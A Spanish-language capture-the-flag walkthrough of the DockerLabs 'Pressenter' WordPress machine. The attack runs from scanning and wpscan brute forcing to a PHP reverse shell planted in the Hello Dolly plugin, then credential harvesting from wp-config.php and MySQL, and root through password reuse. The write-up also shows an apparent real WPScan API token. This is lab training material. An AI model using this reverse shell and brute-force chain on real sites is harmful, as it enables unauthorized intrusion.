

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SQLi` `SQLMap` `Steganography` `John` `SUID` `Information Leakage`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip pressenter.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh pressenter.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 17:21 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Pressenter CTF
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Accedemos a la página web del puerto `80`.



Al inspeccionar el `código fuente`, encontramos el siguiente comentario interesante:

```
<p class="hidden-domain">Find us at <a href="http://pressenter.hl" target="_blank">pressenter.hl</a></p>
```

Descubrimos un dominio `pressenter.hl`. Procedemos a añadirlo a nuestro archivo `/etc/hosts` para que nuestro equipo pueda resolverlo.

```Bash
sudo nano /etc/hosts
```
```
127.0.0.1	localhost
127.0.1.1	kali
172.17.0.2  pressenter.hl
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Accedemos al dominio.


Identificamos que estamos ante un `WordPress`. Utilizaremos la herramienta `wpscan` para enumerar `usuarios`, `plugins` y `temas`.

```Bash
wpscan --url http://pressenter.hl --api-token "srCmCA5xh0l66CHqXAOlcV5jnesEEjKKq2ckuzYle5k" --enumerate u,p,t
```

Info:
```

         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pressenter.hl/ [172.17.0.2]
[+] Started: Mon Feb 16 17:29:32 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pressenter.hl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pressenter.hl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pressenter.hl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.6.1 identified (Insecure, released on 2024-07-23).
 | Found By: Rss Generator (Passive Detection)
 |  - http://pressenter.hl/?feed=rss2, <generator>https://wordpress.org/?v=6.6.1</generator>
 |  - http://pressenter.hl/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.6.1</generator>
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WP < 6.8.3 - Author+ DOM Stored XSS
 |     Fixed in: 6.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/c4616b57-770f-4c40-93f8-29571c80330a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58674
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-cross-site-scripting-xss-vulnerability
 |      -  https://wordpress.org/news/2025/09/wordpress-6-8-3-release/
 |
 | [!] Title: WP < 6.8.3 - Contributor+ Sensitive Data Disclosure
 |     Fixed in: 6.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/1e2dad30-dd95-4142-903b-4d5c580eaad2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58246
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-sensitive-data-exposure-vulnerability
 |      - https://wordpress.org/news/2025/09/wordpress-6-8-3-release/

[+] WordPress theme in use: twentytwentyfour
 | Location: http://pressenter.hl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:00 <===================> (400 / 400) 100.00% Time: 00:00:00
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentytwentyfour
 | Location: http://pressenter.hl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/, status: 200
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] twentytwentythree
 | Location: http://pressenter.hl/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentythree/, status: 200
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.5'

[+] twentytwentytwo
 | Location: http://pressenter.hl/wp-content/themes/twentytwentytwo/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentytwo/style.css
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentytwo/, status: 200
 |
 | Version: 1.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentytwo/style.css, Match: 'Version: 1.8'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] pressi
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] hacker
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 4
 | Requests Remaining: 21

[+] Finished: Mon Feb 16 17:29:40 2026
[+] Requests Done: 468
[+] Cached Requests: 18
[+] Data Sent: 123.923 KB
[+] Data Received: 495.736 KB
[+] Memory used: 320.637 MB
[+] Elapsed time: 00:00:07
```

El escaneo ha detectado dos usuarios: `pressi` y `hacker`.

Procedemos a realizar un ataque de `fuerza bruta` contra los dos usuarios para intentar obtener su contraseña.

```Bash
wpscan --url http://pressenter.hl --api-token "srCmCA5xh0l66CHqXAOlcV5jnesEEjKKq2ckuzYle5k" --usernames pressi,hacker --passwords /usr/share/wordlists/rockyou.txt
```

Info:
```
-----------------------------------------<MORE_OUTPUT>--------------------------------------------------------

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - pressi / dumbass                                                                       
[!] Valid Combinations Found:
 | Username: pressi, Password: dumbass

[+] WPScan DB API OKam Time: 00:01:13 <                   > (7065 / 28691764)  0.02%  ETA: 82:35:05
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 21

[+] Finished: Mon Feb 16 17:32:42 2026
[+] Requests Done: 7214
[+] Cached Requests: 36
[+] Data Sent: 3.649 MB
[+] Data Received: 4.274 MB
[+] Memory used: 279.305 MB
[+] Elapsed time: 00:01:21
```

Encontramos credenciales para el usuario `pressi` : `dumbass`.

Accedemos al panel de administración `wp-admin` y verificamos que `pressi` es un usuario con privilegios de `administrador`.

Para obtener `RCE`, vamos a editar un `plugin` existente para `inyectar` nuestro código malicioso. Nos dirigimos a `Herramientas > Editor de archivos de plugins`.

Seleccionamos el plugin `Hello Dolly`, que está actualmente `desactivado`. Editamos el archivo `hello.php` e inyectamos la siguiente `reverse shell`.

```PHP
$sock=fsockopen("172.17.0.1",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Actualizamos el archivo y ponemos un `listener` en nuestra máquina atacante.

```Bash
sudo nc -nlvp 4444
```

Procedemos a `activar` el `plugin` desde el panel de WordPress.

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 56338
whoami
www-data
```

Recibimos una shell como usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## MOVIMIENTO LATERAL

Enumeramos los archivos del directorio actual y leemos el archivo de configuración `wp-config.php`, donde solemos encontrar credenciales de base de datos.

```Bash
cat wp-config.php
```

Info:
```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://developer.wordpress.org/advanced-administration/wordpress/wp-config/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

--------------------------<RESTO_DEL_ARCHIVO>--------------------------------------------
```

Encontramos las credenciales para la base de datos MySQL: `admin` : `rooteable`.

Nos conectamos a la base de datos para enumerar su contenido.

```Bash
mysql -u admin -p
#password: rooteable
```

```SQL
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7138
Server version: 8.0.39-0ubuntu0.24.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.00 sec)

mysql> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_usernames          |
| wp_users              |
+-----------------------+
13 rows in set (0.00 sec)

mysql> select * from wp_usernames;
+----+----------+-----------------+---------------------+
| id | username | password        | created_at          |
+----+----------+-----------------+---------------------+
|  1 | enter    | kernellinuxhack | 2024-08-22 13:18:04 |
+----+----------+-----------------+---------------------+
1 row in set (0.00 sec)
```

En la tabla `wp_usernames` encontramos credenciales para el usuario `enter` : `kernellinuxhack`.

Pivotamos a este usuario.

```Bash
su enter
```

## ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo`.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for enter on 6210ee302351:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User enter may run the following commands on 6210ee302351:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
    (ALL : ALL) NOPASSWD: /usr/bin/whoami
```

Los permisos de `sudo` no parecen permitirnos escalar privilegios directamente.

Sin embargo, probamos la reutilización de contraseñas. Intentamos acceder como usuario `root` utilizando la misma contraseña que para el usuario `enter`.

```Bash
su root
# password: kernellinuxhack
```

Info:
```
root@6210ee302351:/# whoami
root
root@6210ee302351:/#
```

Ya somos root!

Obtenemos la `flag` de root:
```
root@6210ee302351:~# cat root_true.txt 
4e4a603de810988e0842777de1d97e68
```
